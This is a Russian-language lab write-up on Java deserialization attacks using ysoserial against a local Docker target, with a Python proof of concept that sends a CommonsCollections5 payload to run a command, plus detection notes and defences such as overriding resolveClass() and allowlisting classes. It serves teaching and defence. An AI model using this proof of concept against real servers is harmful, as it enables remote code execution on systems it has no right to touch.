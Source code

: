 
# Ссылки

- https://github.com/frohoff/ysoserial
- https://nytrosecurity.com/2018/05/30/understanding-java-deserialization/
- http://gursevkalra.blogspot.com/2016/01/ysoserial-commonscollections1-exploit.html

## Развертывание

Запускаем [докер контейнер](https://github.com/GrrrDog/ZeroNights-WebVillage-2017/) для java. 
В данном примере уязвимый сервис будет находиться на http://java.lab


# Эксплуатация

## Шаг 1

Скачиваем [ysoserial](https://github.com/frohoff/ysoserial).

## Шаг 2

Используем следующий POC

```python
import requests
import urllib
import subprocess
import base64

# генерируем payload
payload = subprocess.check_output("java -jar ysoserial.jar CommonsCollections5 'touch /tmp/huck-you.txt'", shell=True)
# отправляем
result = requests.get('http://java.lab/ois?sess=%s' % (urllib.parse.quote(base64.b64encode(payload)),))
print(result.text)
```

Сгенерированный payload с помощью ysoserial запустит произвольный код на атакуемом сервере. При этом вылетит ошибка согласования типов, однако код всё равно запустится. 

# Детектирование

- Класс вредоносного объекта присутствует в classpath сервера. 
- Класс вредоносного объекта ― сериализуемый или экстернализуемый.

# Защита

- переопределение  метода resolveClass().

При чтении потока сериализованному объекту предшествует описание класса. Эта структура позволяет  реализовать свой собственный алгоритм чтения описания класса и в зависимости от имени класса решать, следует ли продолжить чтение потока. Для этого можно использовать переопределение  метода resolveClass(). Его можно использовать для выдачи исключения всякий раз, когда поток содержит неожидаемый класс. Таким образом exception выдаётся до того, как объект начинает десериализовываться. 


- Своевременное обновление библиотек.
- Использование белого листа для десериализуемых объектов. 

